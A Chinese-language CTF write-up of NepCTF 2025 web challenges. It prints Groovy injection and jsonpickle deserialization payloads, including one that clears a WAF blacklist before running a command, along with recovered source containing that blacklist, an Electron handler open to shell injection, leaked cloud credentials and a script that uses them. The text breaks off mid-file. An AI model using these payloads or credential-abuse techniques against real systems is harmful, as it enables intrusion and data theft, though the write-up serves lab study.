









# NepCTF 2025

## Web

### EasyGooGooVVVY

Groovy 表达式注入

```java
"".class.forName("java.lang.Runtime").getRuntime().exec("env").text
```

Flag 就在环境变量中。

### RevengeGooGooVVVY

```python
"".class.forName("java.lang.Runtime").getRuntime().exec("env").text
```

Flag 就在环境变量中。

### JavaSeri

工具一把梭（x）

https://github.com/SummerSec/ShiroAttack2

<figure><figcaption></figcaption></figure>

### Safe\_bank

这道题在比赛中没做出来，只通过 [从源码看JsonPickle反序列化利用与绕WAF](https://xz.aliyun.com/news/16133) 试出了些黑名单还有源代码，赛后根据 [LamentXU 师傅](https://www.cnblogs.com/LAMENTXU/articles/19007988) 的 WP 复现了下，通过 `list.clear()` 删掉黑名单这方法确实妙哇。

通过 `关于我们` 发现技术细节。

```
我们的平台使用Python Flask构建，并利用安全的会话管理系统。

我们使用以下技术：

- Python Flask作为Web框架
- JSON用于数据交换
- 使用jsonpickle的高级会话管理
- Base64编码用于Token传输

我们的会话令牌结构如下：
Session { 
  meta: { 
    user: "用户名",
    ts: 时间戳 
    } 
}
```

随机注册并登录，通过对 Cookies 进行 base64 解码发现内容如下。

```json
{"py/object": "__main__.Session", "meta": {"user": "1234", "ts": 1753715060}}
```

通过修改 `user` 为 `admin` 尝试。

```
{"py/object": "__main__.Session", "meta": {"user": "admin", "ts": 1753715060}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogImFkbWluIiwgInRzIjogMTc1MzcxNTA2MH19
```

<figure><figcaption></figcaption></figure>

得到路径 `/vault` ，通过管理员账号 Cookie 访问发现是假的 flag。

<figure><figcaption></figcaption></figure>

在文章 [从源码看JsonPickle反序列化利用与绕WAF](https://xz.aliyun.com/news/16133) 中存在一些利用链还有手工测试，初步通过回显判断发现部分黑名单内容如下。

> 注意：部分利用链存在 JSON 格式问题，可以通过 https://www.json.cn/ 来校验。

```
subprocess
Popen
reduce
re
system
state
os
builtins
nt
code
getattr
sys
__dict__
```

通过其中一个 Payload 如下成功读取目录内容。

```json
{
  "py/object": 
    "__main__.Session",
    "meta": {
      "user": {"py/object": "glob.glob", "py/newargs": ["/*"]},
      "ts": 1753715060
    }
}
```

```
['/run', '/bin', '/usr', '/etc', '/mnt', '/home', '/var', '/srv', '/sys', '/proc', '/sbin', '/lib64', '/media', '/opt', '/lib', '/dev', '/tmp', '/boot', '/root', '/flag', '/entrypoint.sh', '/readflag', '/app']
```

通过另外一个 Payload 如下成功发现 `/flag` 为空，说明 flag 在 `/readflag` 中，但 `re` 在黑名单中。

```json
{
  "py/object": 
    "__main__.Session",
    "meta": {
      "user": {"py/object": "linecache.getlines", "py/newargs": ["/flag"]},
      "ts": 1753715060
    }
}
```

```
[]
```

通过 Payload 如下能够获取源代码，代码整理就交给 AI 了。

```json
{
  "py/object": 
    "__main__.Session",
    "meta": {
      "user": {"py/object": "linecache.getlines", "py/newargs": ["/app/app.py"]},
      "ts": 1753715060
    }
}
```

```python
from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time

app = Flask(__name__)
app.secret_key = os.urandom(24)

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta

users_db = [
    Account("admin", os.urandom(16).hex()),
    Account("guest", "guest")
]

def register_user(username, password):
    for acc in users_db:
        if acc.uid == username:
            return False
    users_db.append(Account(username, password))
    return True

FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]

def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"

@app.route('/')
def root():
    return render_template('index.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')
        
        if not username or not password or not confirm_password:
            return render_template('register.html', error="所有字段都是必填的。")
        
        if password != confirm_password:
            return render_template('register.html', error="密码不匹配。")
            
        if len(username) < 4 or len(password) < 6:
            return render_template('register.html', error="用户名至少需要4个字符，密码至少需要6个字符。")
        
        if register_user(username, password):
            return render_template('index.html', message="注册成功！请登录。")
        else:
            return render_template('register.html', error="用户名已存在。")
    
    return render_template('register.html')

@app.post('/auth')
def auth():
    u = request.form.get("u")
    p = request.form.get("p")
    for acc in users_db:
        if acc.uid == u and acc.pwd == p:
            sess_data = Session({'user': u, 'ts': int(time.time())})
            token_raw = jsonpickle.encode(sess_data)
            b64_token = base64.b64encode(token_raw.encode()).decode()
            resp = make_response("登录成功。")
            resp.set_cookie("authz", b64_token)
            resp.status_code = 302
            resp.headers['Location'] = '/panel'
            return resp
    return render_template('index.html', error="登录失败。用户名或密码无效。")

@app.route('/panel')
def panel():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root', error="缺少Token。"))
    
    try:
        decoded = base64.b64decode(token.encode()).decode()
    except:
        return render_template('error.html', error="Token格式错误。")
    
    ban = waf(decoded)
    if ban:
        return render_template('error.html', error=f"请不要黑客攻击！{ban}")
    
    try:
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('user_panel.html', username=meta.get('user'))
        
        return render_template('admin_panel.html')
    except Exception as e:
        return render_template('error.html', error=f"数据解码失败。")

@app.route('/vault')
def vault():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root'))

    try:
        decoded = base64.b64decode(token.encode()).decode()
        if waf(decoded):
            return render_template('error.html', error="请不要尝试黑客攻击！")
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('error.html', error="访问被拒绝。只有管理员才能查看此页面。")
            
        flag = "NepCTF{fake_flag_this_is_not_the_real_one}"
        return render_template('vault.html', flag=flag)
    except:
        return redirect(url_for('root'))

@app.route('/about')
def about():
    return render_template('about.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=False)

```

之后，在 [LamentXU 师傅](https://www.cnblogs.com/LAMENTXU/articles/19007988) 这了解到可以把黑名单给全扬了。

在 list 对象中，存在 `clear()` 方法，能够把整个列表内容都删了，详细如下。

```python
import jsonpickle  
import json  
  
FORBIDDEN = [  
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',  
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',  
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\', 'posix',  
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',  
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',  
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',  
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',  
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'  
]  
  
def waf():  
    try:  
        for bad in FORBIDDEN:  
            if bad in str:  
                return bad  
        return None  
    except:  
        return "error"  
  
str = '{"py/object": "__main__.FORBIDDEN.clear", "py/newargs": []}'  
  
ban = waf()  
  
if ban:  
    print(ban)  
else:  
    print(jsonpickle.decode(str))  
  
print(FORBIDDEN)

"""
None
[]
"""
```

构造 Payload 如下。

```json
{
  "py/object": 
    "__main__.Session",
    "meta": {
      "user": {"py/object": "__main__.FORBIDDEN.clear", "py/newargs": []},
      "ts": 1753715060
    }
}
```

```
None
```

此时就已经成功把黑名单全删了，通过 Payload 如下即可得到 flag。

```json
{
  "py/object": 
    "__main__.Session",
    "meta": {
      "user": {"py/object": "subprocess.getoutput", "py/newargs": ["/readflag"]},
      "ts": 1753715060
    }
}
```

```
NepCTF{be0cb2ec-db62-fd11-3cfa-985d117a0559}
```

#### FakeXSS

赛后根据 [LamentXU 师傅](https://www.cnblogs.com/LAMENTXU/articles/19007988) 的 WP 复现。

将下载的客户端改为 `zip` 并解压可以发现 `$PLUGINSDIR\app-64.7z\LICENSE.electron.txt` ，可推测客户端采用的是 Electron 框架，通过 [WinAsar](https://github.com/aardio/WinAsar) 解包后得到 `main.js` 如下。

```js
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('path');
const { exec } = require('child_process');

let mainWindow = null;

function createWindow() {
  mainWindow = new BrowserWindow({
    width: 1600,
    height: 1200,
    webPreferences: {
      preload: path.join(__dirname, 'preload.js'),
      contextIsolation: true,
    }
  });

  // 默认加载本地输入页面
  mainWindow.loadFile('index.html');
}

app.whenReady().then(createWindow);

// 接收用户输入的地址并加载它
ipcMain.handle('load-remote-url', async (event, url) => {

  if (mainWindow) {
    mainWindow.loadURL(url);
  }
});

ipcMain.handle('curl', async (event, url) => {
  return new Promise((resolve) => {

    const cmd = `curl -L "${url}"`;

    exec(cmd, (error, stdout, stderr) => {
      if (error) {
        return resolve({ success: false, error: error.message });
      }
      resolve({ success: true, data: stdout });
    });
  });
});
```

通过 Web 中注册账号，登录账号，存在个人资料修改页面，通过 BP 抓包发现上传头像时泄露了腾讯云 COS 的 KEY。

```json
{"Token":"7hZq06JCeHSQdPzPbktorNVcoSBBdpza865ad671590c232bc3ca38960d98eb8daHdAoP3wx_jm1Pep12rKaEDw91Kdx_2sQ0yHSNQlRQZF89BBwgcHqEX_VmJ9ZRwzy2MiDH8AAAHfz6g5lq1tENtkWAnE3ezC2ltXcbsHLz1BY3tbtgOP67k3TemC-L6mqqYQCt0wowPeUhhOio54lDEqZ72r3acvb0o0Wqit9r8Iuu1ZziFondtLcVXvJDsc9LNATy9kn57p3GA_Z85n7vWYNLn19abCpQLrZwYzZOgbVb1ag5qjP2wKt6hp2_zYEd7Mk4u_EC4VHFw5xwP5ZBIUliFQ-4EyEIaFFcpFdrqVW482L6WvgUtKadCe3Qzr-e-TwXxKridE3p__-_-JXsBCTiNxovpJPYZKP1TGcMpWa_m-1uq_PI9ZYs5JNxlfXFDe81MQMgSw43vEsROyYQixwUzJXWV-Nc_bYwH-WR2KLtkBb5Ha3Eom72L2_l6JyEkYOeyZpyE19Ww5rwfCzA","TmpSecretId":"AKIDPcP06ViMBAcGOeQZ85stOcOwcBzVk3-7fIpMmyfcP0wEXnf99usKyhF3gsK-V9kB","TmpSecretKey":"xP5ZfR2GLPEmvi6hzr8jFi/OUUUzyUxlEPEF/6KTK70=","auth":"IntcInZlcnNpb25cIjpcIjIuMFwiLFwic3RhdGVtZW50XCI6W3tcImVmZmVjdFwiOlwiYWxsb3dcIixcImFjdGlvblwiOltcImNvczpQdXRPYmplY3RcIl0sXCJyZXNvdXJjZVwiOltcInFjczo6Y29zOmFwLWd1YW5nemhvdTp1aWQvMTM2MDgwMjgzNDp0ZXN0LTEzNjA4MDI4MzQvcGljdHVyZS8wNDQyZjFjOC0zNWEyLTQ5MWUtYjQ1Mi1mZTg4ZDUyYmM4YTcucG5nXCJdLFwiQ29uZGl0aW9uXCI6e1wibnVtZXJpY19lcXVhbFwiOntcImNvczpyZXF1ZXN0LWNvdW50XCI6NX0sXCJudW1lcmljX2xlc3NfdGhhbl9lcXVhbFwiOntcImNvczpjb250ZW50LWxlbmd0aFwiOjEwNDg1NzYwfX19LHtcImVmZmVjdFwiOlwiYWxsb3dcIixcImFjdGlvblwiOltcImNvczpHZXRCdWNrZXRcIl0sXCJyZXNvdXJjZVwiOltcInFjczo6Y29zOmFwLWd1YW5nemhvdTp1aWQvMTM2MDgwMjgzNDp0ZXN0LTEzNjA4MDI4MzQvKlwiXX1dfSI="}
```

通过 Web 页面中的 JavaScript 代码可知存储桶 Bucket 和 Region。

```js
// 加载头像
 async function loadAvatar() {
     try {
         const bucket = 'test-1360802834';
         const region = 'ap-guangzhou';
         const avatarKey = `picture/${user.uuid}.png`;
         const avatarUrl = `https://${bucket}.cos.${region}.myqcloud.com/${avatarKey}`;

         // 发送不带 Authorization 和 x-cos-security-token 头的 HEAD 请求
         const response = await fetch(avatarUrl, {
             method: 'HEAD'
         });

         if (response.ok) {
             // 头像存在，显示它
             avatarImg.src = `${avatarUrl}?t=${Date.now()}`;
             uploadStatus.textContent = '已上传头像';
         } else {
             // 头像不存在，显示默认头像
             avatarImg.src = '/default/default.png';
             uploadStatus.textContent = '未上传头像';
         }
     } catch (error) {
         console.error('加载头像失败:', error);
         uploadStatus.textContent = '加载头像失败';
     }
 }
```

这里就直接用师傅搓的脚本吧，通过 `pip install -U cos-python-sdk-v5 -i https://mirrors.aliyun.com/pypi/simple/` 安装 Python SDK。

```python
from qcloud_cos import CosConfig
from qcloud_cos import CosS3Client
import logging
import os

# 配置日志
logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')

# 临时凭证信息
credentials = {
"Token":"0R0XmxDL49yif79c9rRXnLYM1vbjR2Da318a4326b0c7bff4f56344465fad714fAQdoKSmkHKYvZE-x_Wbj-97Byfy-t71IHYouklLnn5srbzYXPBmrWGZAnhrJhpkX3_QSIRmhZlEgfOdp4Bdx0kg9UCQecE_sxP1M4P3_uvO7AQV_i20R-AOaegFgNQw6E7zFFi8poid0R5bIoSmSGc0HKExRebMmIhVjK1NSSjV8pBnYkslUFiT91jsFUXvdAw5EGv_gQ8I2O_jm7o3hOHnvJyFGUhoGOZewNeCUtYVdf__5hAHoz8Q-F30IfvfYb4CQlL6LSUcvlmNZ-Jj7TGBMJhyvkEU3jAJNWgo4iC742Vj1rY_tBqXYJ2DAEJK6xv2vFDkxmJ9ftUO7OUZWdMicYMCyFNJu7KqtTsfPKySxKV-fIFDZv64NrgPm9jmnrfgKm1XK_CV0kI-qOnTvDeKA3WbE94P9XTm-s8N1jMeFMYVsYfKYQsIaR01eTD8XIAf8KcTg6GfyvkA6ewB4vA","TmpSecretId":"AKID3-CdtXjCLfIJo_vlvaTkVFB5gRGUDY3fN8aHQUi1I0CS7BwUnR2-U3pdMtIwhleu","TmpSecretKey":"kBMjDi2LGlrVRdf0QOf8kNjgme+k3vshE0FGPHPLhlA=",
}

# 存储桶配置
bucket_name = 'test-1360802834'
region = 'ap-guangzhou'

# 配置COS客户端
config = CosConfig(
    Region=region,
    SecretId=credentials["TmpSecretId"],
    SecretKey=credentials["TmpSecretKey"],
    Token=credentials["Token"]
)

# 初始化客户端
client = CosS3Client(config)

def list_files_for_download():
    """列出可供下载的文件"""
    try:
        print(f"\n正在列出存储桶 {bucket_name} 中的文件...")
        marker = ""
        file_list = []
        
        while True:
            response = client.list_objects(
                Bucket=bucket_name,
                MaxKeys=100,
                Marker=marker
            )
            
            if 'Contents' in response:
                for obj in response['Contents']:
                    if not obj['Key'].endswith('/'):  # 排除目录
                        file_list.append(obj['Key'])
                        print(f"{len(file_list)}. {obj['Key']} (大小: {obj['Size']} bytes)")
            
            if response.get('IsTruncated', 'false') == 'false':
                break
                
            marker = response.get('NextMarker', '')
        
        return file_list
        
    except Exception as e:
        print(f"列出文件时出错: {str(e)}")
        return []

def download_file(cos_key, local_path=None):
    """
    下载文件
    :param cos_key: COS上的文件路径
    :param local_path: 本地保存路径(可选)
    """
    try:
        if local_path is None:
            # 如果没有指定本地路径，使用文件名作为默认路径
            local_path = os.path.basename(cos_key)
        print(local_path)
        # 创建目录(如果需要)
        # os.makedirs(os.path.dirname(local_path), exist_ok=True)
        
        print(f"\n正在下载 {cos_key} 到 {local_path}...")
        print(cos_key)
        # 执行下载
        response = client.download_file(
            Bucket=bucket_name,
            Key=cos_key,
            DestFilePath=local_path
        )
        print(response)
        print(f"下载成功! 文件保存到: {os.path.abspath(local_path)}")
        return True
        
    except Exception as e:
        raise

def download_file_with_progress(cos_key, local_path=None):
    """
    带进度显示的下载文件
    :param cos_key: COS上的文件路径
    :param local_path: 本地保存路径(可选)
    """
    try:
        if local_path is None:
            local_path = os.path.basename(cos_key)
        
        print(f"\n正在下载 {cos_key} 到 {local_path}...")
        
        # 获取文件大小用于显示进度
        head_response = client.head_object(
            Bucket=bucket_name,
            Key=cos_key
        )
        total_size = int(head_response['Content-Length'])
        
        # 回调函数显示进度
        def progress_callback(consumed_bytes, total_bytes):
            percent = int(100 * (consumed_bytes / total_bytes))
            print(f"\r下载进度: {percent}% ({consumed_bytes}/{total_bytes} bytes)", end='', flush=True)
        
        # 执行下载
        response = client.download_file(
            Bucket=bucket_name,
            Key=cos_key,
            DestFilePath=local_path,
            PartSize=10*1024*1024,  # 分块大小(10MB)
            MAXThread=5,  # 并发线程数
            ProgressCallback=progress_callback
        )
        
        print("\n下载完成!")
        return True
        
    except Exception as e:
        print(f"\n下载文件 {cos_key} 时出错: {str(e)}")
        return False

if __name__ == "__main__":
    print("===== 腾讯云 COS 文件下载工具 =====")
    print(f"使用临时密钥访问存储桶: {bucket_name}")
    
    # 列出文件供选择
    files = list_files_for_download()
    
    if not files:
        print("\n存储桶中没有可供下载的文件")
    else:
        # 让用户选择要下载的文件
        try:
            selection = input("\n请输入要下载的文件编号(输入0退出): ")
            if selection == '0':
                exit()
            
            selection = int(selection) - 1
            if 0 <= selection < len(files):
                selected_file = files[selection]
                
                # 获取本地保存路径
                default_name = os.path.basename(selected_file)
                local_path = input(f"输入本地保存路径(默认: {default_name}): ") or default_name
                
                # 选择下载方式
                print("\n选择下载方式:")
                print("1. 普通下载")
                print("2. 带进度显示的分块下载(适合大文件)")
                method = input("请输入选项(默认1): ") or '1'
                
                if method == '1':
                    download_file(selected_file, local_path)
                else:
                    download_file_with_progress(selected_file, local_path)
            else:
                print("输入无效，请选择正确的文件编号")
        except ValueError:
            print("请输入有效的数字编号")
    
print("\n程序执行完毕")

"""
140. www/flag.txt (大小: 35 bytes)
141. www/server_bak.js (大小: 8914 bytes)
"""
```

可以发现存在两个文件。

```
https://test-1360802834.cos.ap-guangzhou.myqcloud.com/www/flag.txt

fake{看看www/server_bak.js对象}

https://test-1360802834.cos.ap-guangzhou.myqcloud.com/www/server_bak.js
```

```js
const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const crypto = require('crypto');
const tencentcloud = require("tencentcloud-sdk-nodejs");
const path = require('path');
const fs = require('fs');
const { v4: uuidv4 } = require('uuid');
const { execFile } = require('child_process');
const he = require('he');


const app = express();
const PORT = 3000;

app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', '*');
  res.setHeader('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  next();
});

// 配置会话
app.use(session({
  secret: 'ctf-secret-key_023dfpi0e8hq',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false , httpOnly: false}
}));

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));

// 用户数据库
const users = {'admin': { password: 'nepn3pctf-game2025', role: 'admin', uuid: uuidv4(), bio: '' }};
// 存储登录页面背景图片 URL
let loginBgUrl = '';

// STS 客户端配置
const StsClient = tencentcloud.sts.v20180813.Client;
const clientConfig = {
  credential: {
    secretId: "AKIDRkvufDXeZJpB4zjHbjeOxIQL3Yp4EBvR",
